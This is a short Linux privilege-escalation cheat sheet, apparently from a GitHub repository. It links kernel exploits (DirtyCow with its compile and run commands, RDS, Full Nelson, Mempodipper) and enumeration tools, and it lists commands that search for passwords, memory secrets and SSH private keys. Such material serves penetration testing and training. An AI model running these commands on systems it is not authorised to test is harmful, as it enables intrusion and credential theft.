# linux-priv-Esc

# GTFOBins  
https://gtfobins.github.io


# Initial Enumeration
uname -a, netstat -ano, history

# Automated tools 
1) Linux-Exploit-Suggester  https://github.com/mzet-/linux-exploit-suggester
2) Linux-Privilege-Script https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
3) Linux-Enumeration https://github.com/rebootuser/LinEnum


# Kernal-Exploit 

1) CVE-2016-5195 (DirtyCow)
Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8
Code: https://github.com/FireFart/dirtycow/blob/master/dirty.c

compile:- gcc -pthread dirty.c -o dirty -lcrypt

Then run the newly create binary by either doing:- "./dirty" or "./dirty my-new-password"

2) CVE-2010-3904 (RDS)
Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8
https://www.exploit-db.com/exploits/15285/

3) CVE-2010-4258 (Full Nelson)
Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04)
https://www.exploit-db.com/exploits/15704/

4) CVE-2012-0056 (Mempodipper)

Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)
https://www.exploit-db.com/exploits/18411


# Weak File Permission 

ls -l | grep shadow 

ls -l | grep passwd

# File Containing Password

grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null

find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;

# Old passwords in /etc/security/opasswd

/etc/security/opasswd 


# Last edited files
*Files that were edited in the last 10 minutes*

find / -mmin -10 2>/dev/null | grep -Ev "^/proc"

# In memory passwords
strings /dev/mem -n10 | grep -i PASS

# Find sensitive files
$ locate password | more           
/boot/grub/i386-pc/password.mod
/etc/pam.d/common-password
/etc/pam.d/gdm-password
/etc/pam.d/gdm-password.original
/lib/live/config/0031-root-password

# SSH Key

*Sensitive files*

find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
